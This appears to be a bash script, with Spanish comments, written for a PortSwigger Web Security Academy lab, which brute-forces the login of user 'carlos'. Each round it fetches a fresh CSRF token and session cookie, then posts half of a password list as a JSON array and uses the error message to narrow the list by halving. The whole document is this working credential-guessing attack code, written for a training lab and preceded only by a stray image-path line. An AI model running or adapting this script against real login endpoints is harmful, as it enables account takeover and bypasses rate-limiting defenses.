 ```bash
#!/bin/bash

URL='https://acd41fb21eba1524804c04b7006700ef.web-security-academy.net/login'
NULL='/dev/null'

USER="carlos"

cp password.txt pass0.txt #Comentar la segunda vez que corres el script

for i in `seq 1 7`
do
    
    REQUEST1=`curl $URL -D- -s`
    CSRF=`echo $REQUEST1 | grep -oP 'value=".*?"' | cut -d '"' -f 2`
    COOKIE=`echo $REQUEST1 | grep -oP 'session=.*?;'`

    LINESS=`cat pass0.txt | wc -l`

    sed -n 1,$[$LINESS/2]p pass0.txt > pass1.txt
    sed -n $[$LINESS/2+1],$[$LINESS]p pass0.txt > pass2.txt

    PASS1=`cat pass1.txt | tr '\n' ':' | sed s/':'/'","'/g`
    PASS2=`cat pass2.txt | tr '\n' ':' | sed s/':'/'","'/g`

    DATA='{"csrf":"'$CSRF'","username":"'$USER'","password":["'${PASS1::-3}'"]}'
    RESULT1=`curl $URL -d $DATA -b $COOKIE -s`
    #echo "Resultado uno"
    #echo $RESULT1
    
    REQUEST1=`curl $URL -D- -s`
    CSRF=`echo $REQUEST1 | grep -oP 'value=".*?"' | cut -d '"' -f 2`
    COOKIE=`echo $REQUEST1 | grep -oP 'session=.*?;'`
    
    DATA='{"csrf":"'$CSRF'","username":"'$USER'","password":["'${PASS2::-3}'"]}'
    RESULT2=`curl $URL -d $DATA -b $COOKIE -s`
    #echo "Resultado dos"
    #echo $RESULT2
    
    if echo $RESULT1 | grep -o "Invalid username or password" > $NULL
    then
            #echo "Aqui en pass1.txt no es"
            echo "La clave debe estar en: ${PASS2::-3}"
            cat pass2.txt > pass0.txt
    fi

    if echo $RESULT2 | grep -o "Invalid username or password" > $NULL
    then
            #echo "Aqui en pass2.txt no es"
            echo "La clave debe estar en: ${PASS1::-3}"
            cat pass1.txt > pass0.txt
    fi
    sleep 1
done
```
